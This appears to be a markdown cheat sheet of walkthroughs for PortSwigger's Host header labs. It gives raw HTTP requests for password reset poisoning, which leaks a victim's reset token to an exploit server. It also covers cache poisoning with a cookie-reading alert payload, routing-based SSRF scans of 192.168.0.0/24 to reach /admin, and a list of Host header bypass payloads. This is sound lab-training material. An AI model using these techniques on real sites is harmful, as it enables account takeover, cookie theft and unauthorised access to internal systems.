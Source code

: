 ## If /admin not found, try:

```
GET /admin HTTP/1.1
Host: 192.168.0.1
```

and u will see this hidden admin, even it was 404 before. See: `Host validation bypass via connection state attack` below to view full lab.

## Basic password reset poisoning

1) Investigate (do) full "Forgot your password?" functionality to your own account.
2) Notice that the POST /forgot-password request is used to trigger the password reset email. This contains the username whose password is being reset as a body parameter.
3) change the Host header to your exploit server's domain name (YOUR-EXPLOIT-SERVER-ID.exploit-server.net) and change the username parameter to carlos. Send the request.
4) Go to your exploit server and open the access log. You will see a request for GET /forgot-password with the temp-forgot-password-token parameter containing Carlos's password reset token.
5) Go to your email client and copy the genuine password reset URL from your first email. Visit this URL in the browser, but replace your reset token with the one you obtained from the access log.

## Host header authentication bypass

1) Go to the /robots.txt and observe that there is an admin panel at /admin.
2) Notice that /admin can be accessed by local users..
3) Change the Host header to localhost and send the request.

## Web cache poisoning via ambiguous requests (x-Cache-hit)

1) Exploit server -> and create a file at `/resources/js/tracking.js` containing the payload `alert(document.cookie)`.
2)
   ```
    GET /?cb=123 HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    ```

## Routing-based SSRF

1) Set `Host: 192.168.0.§0§`; Payload -> numbers from 0 to 255 with step 1.
2) `GET /admin/delete?csrf=QCT5OmPeAAPnyTKyETt29LszLL7CbPop&username=carlos`.
3) Copy the session cookie from the Set-Cookie header in the displayed response and add it to your request.
4) Right-click on your request and select Change request method. Burp will convert it to a `POST` request. Send.

## SSRF via flawed request parsing

1) Observe that you can also access the home page by supplying an absolute URL in the request line as follows:
`GET https://YOUR-LAB-ID.web-security-academy.net/`.
2) It means that its possible now to modify header:
   
   ```
   GET https://YOUR-LAB-ID.web-security-academy.net/
   Host: BURP-COLLABORATOR-SUBDOMAIN
   ```
3)  Go to Intruder and deselect Update Host header to match target. Use the Host header to scan the IP range 192.168.0.0/24.
4)  In Burp Repeater, append /admin to the absolute URL in the request line and send the request. Not you have access.

## Host validation bypass via connection state attack

1) Take `GET /` Request:
   Change the path to /admin.
   Change Host header to 192.168.0.1.
2) you are simply redirected to the homepage. Duplicate the tab, then add both tabs to a new group.
3) In the first tab:
   Change the path back to /.
   Change the Host header back to `YOUR-LAB-ID.h1-web-security-academy.net`.

4) Send `group in sequence (single connection)`. Change the Connection header to keep-alive.

## Bypasses:
```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```

```
Host: target.com
X-Forwarded-Host: admin.target.com
```

```
Host: admin.target.com
```

```
Host: target.com:80
```

```
GET /admin HTTP/1.0
```

```
Host: target.com
X-Original-Host: admin.target.com
```

```
Host: admin%2etarget.com
```

```
Host: target.com.exploit-server.com
```
